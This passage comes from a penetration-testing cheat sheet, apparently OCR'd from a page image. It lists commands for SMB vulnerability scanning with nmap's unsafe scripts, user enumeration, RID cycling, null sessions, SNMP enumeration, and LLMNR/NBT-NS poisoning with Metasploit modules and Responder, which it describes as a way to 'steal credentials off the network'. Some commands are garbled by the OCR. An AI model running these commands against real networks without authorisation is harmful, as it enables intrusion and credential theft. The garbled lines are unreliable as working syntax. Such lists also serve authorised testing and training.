 `nmap -v -p 445 --script=smb-check-vulns --script-args=unsafe=1 $ip`

    - Nmap List all SMB scripts installed

`ls -l /usr/share/nmap/scripts/smb\*`

    - Enumerate SMB Users
        - `nmap -sU -sS --script=smb-enum-users -p U:137,T:139 $ip-14`
        - `python /usr/share/doc/python-impacket-doc/examples /samrdump.py $ip`
    - RID Cycling - Null Sessions

[*https://www.trustedsec.com/march-2013/new-tool-release-rpc_enum-rid-cycling-attack/*](https://www.trustedsec.com/march-2013/new-tool-release-rpc_enum-rid-cycling-attack/)

        - `ridenum.py $ip 500 50000 dict.txt`
        - `use auxiliary/scanner/smb/smb\_lookupsid`
    - Manual Null Session Testing
        - Windows: `net use \\\\$ip\\IPC$ "" /u:""`
        - Linux: `smbclient -L //$ip`
- LLMNR / NBT-NS Spoofing - Steal credentials off the network.
    - Spoof / poison LLMNR / NetBIOS requests:

auxiliary/spoof/llmnr/llmnr_response
auxiliary/spoof/nbns/nbns_response

    - Capture the hashes:

auxiliary/server/capture/smb
auxiliary/server/capture/http_ntlm

    - Using Responder to Steal Creds

`git clone https://github.com/SpiderLabs/Responder.git  ``python Responder.py -i local-ip -I eth0`

- SMTP Enumeration - Mail Severs
    - Verify SMTP port using Netcat

`nc -nv $ip 25`

- SNMP Enumeration -Simple Network Management Protocol
    - Fix SNMP output values so they are human readable

`apt-get install snmp-mibs-downloader download-mibs  ``echo "" &gt; /etc/snmp/snmp.conf`

    - SNMP Enumeration Commands
        - `snmpcheck -t $ip -c public`
        - `snmpwalk -c public -v1 $ip 1|`
        - `grep hrSWRunName|cut -d\* \* -f`
        - `snmpenum -t $ip`
        - `onesixtyone -c names -i hosts`
    - SNMPv3 Enumeration

`nmap -sV -p 161 --script=snmp-info $ip/24`

    - Automate the username enumeration process for SNMPv3:

`apt-get install snmp snmp-mibs-downloader  ``wget <https://raw.githubusercontent.com/raesene/TestingScripts/master/snmpv3enum.rb>`

    - SNMP Default Credentials
